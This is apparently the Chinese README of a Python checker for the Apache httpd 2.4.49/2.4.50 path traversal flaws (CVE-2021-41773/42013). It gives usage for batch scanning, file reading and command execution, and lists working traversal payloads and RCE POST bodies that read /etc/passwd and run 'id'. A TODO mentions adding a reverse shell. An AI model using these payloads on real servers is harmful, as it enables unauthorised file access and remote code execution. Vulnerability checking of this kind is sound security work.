 # apache httpd path traversal checker


## 0x00 概述

20211005，网上曝出apache httpd 2.4.49的目录穿越漏洞（cve-2021-41773），可造成任意文件读取（穿越的目录允许被访问，如配置了`<Directory />Require all granted</Directory>`， 默认不允许）或命令执行（rce需开启cgi，默认不包含cgi模块）

20211008，又出了2.4.50的目录穿越（cve-2021-42013），是绕过了cve-2021-41773的修复。

漏洞详情参考：[apache httpd 2.4.49/2.4.50 目录穿越漏洞重现及分析](https://www.lsablog.com/networksec/penetration/apache-httpd-path-traversal-analysis/) 



## 0x01 快速开始

python3运行

使用帮助：python3 apache-httpd-path-traversal.py -h

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-00.png)


单url检测：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80"

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-01.png)

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-02.png)


批量检测：python3 apache-httpd-path-traversal.py -f urls.txt -t 30 -s 3

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-03.png)


文件读取：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /icons --readfile

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-04.png)


命令执行：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /cgi-bin --rce

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-05.png)



## 0x02 工具简介

使用urllib.request发http数据包

检测漏洞存在的依据是读取/etc/passwd判断返回数据是否含有”root:”字符串（因为大部分都是linux，所以暂时忽略检测windows）

多线程，可选择超时时间，以提高效率。

可选存在的目录（--cdir），rce的shell（--rceshell），以提供灵活性。

检测时采用可能的公共目录列表，提高命中率。
commonDirList = ['/cgi-bin', '/icons', '/assets', '/uploads', '/img', '/image']

注意：有时候文件读取是利用icons目录，而rce要用cgi-bin目录，具体情况具体分析。

采用7种poc和2种rce的post data格式：

#cve-2021-41773
poc0 = "/.%2e/%2e%2e/%2e%2e/%2e%2e"

poc1 = "/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e"


#cve-2021-42013
poc2 = "/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65"

poc3 = "/.%%32%65/.%%32%65/.%%32%65/.%%32%65"

poc4 = "/.%%32e/.%%32e/.%%32e/.%%32e"

poc5 = "/.%2%65/.%2%65/.%2%65/.%2%65"

#rce data
rce0 = "echo;id"

rce1 = "echo Content-Type: text/plain; echo; id"

//rce的post方法改为get方法好像也行。

//payload要根据目标的apache路径层数变化跳出，一般4层够了。

//要有一个apache存在的目录，比如icons/或cgi-bin/



## 0x03 TODO

1.可能会增加对windows系统的检测。

2.可能会增加反弹shell等进一步利用。



## 0x04 反馈

[issus](https://github.com/theLSA/apache-httpd-path-traversal-checker/issues)

gmail：[lsasguge196@gmail.com](mailto:lsasguge196@gmail.com)

qq：[2894400469@qq.com](mailto:2894400469@qq.com)